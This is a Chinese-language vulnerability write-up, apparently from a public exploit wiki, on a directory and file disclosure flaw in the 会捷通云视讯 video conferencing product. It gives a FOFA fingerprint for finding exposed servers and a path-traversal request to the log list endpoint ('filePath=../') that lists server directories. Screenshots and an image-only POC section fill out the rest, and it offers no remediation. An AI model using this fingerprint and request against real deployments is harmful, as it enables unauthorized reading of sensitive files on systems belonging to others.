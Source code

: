 # 会捷通云视讯 list 目录文件泄露漏洞

## 漏洞描述

会捷通云视讯某个文件 list参数 存在目录文件泄露漏洞，攻击者通过漏洞可以获取一些敏感信息

## 漏洞影响

> [!NOTE]
>
> 会捷通云视讯

## FOFA

> [!NOTE]
>
> body="/him/api/rest/v1.0/node/role"

## 漏洞复现

登陆页面如下

![](http://wikioss.peiqi.tech/vuln/zc-1.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

访问Url

```
/him/api/rest/V1.0/system/log/list?filePath=../
```

![](http://wikioss.peiqi.tech/vuln/zc-2.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

## Goby & POC

![](http://wikioss.peiqi.tech/vuln/zc-4.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)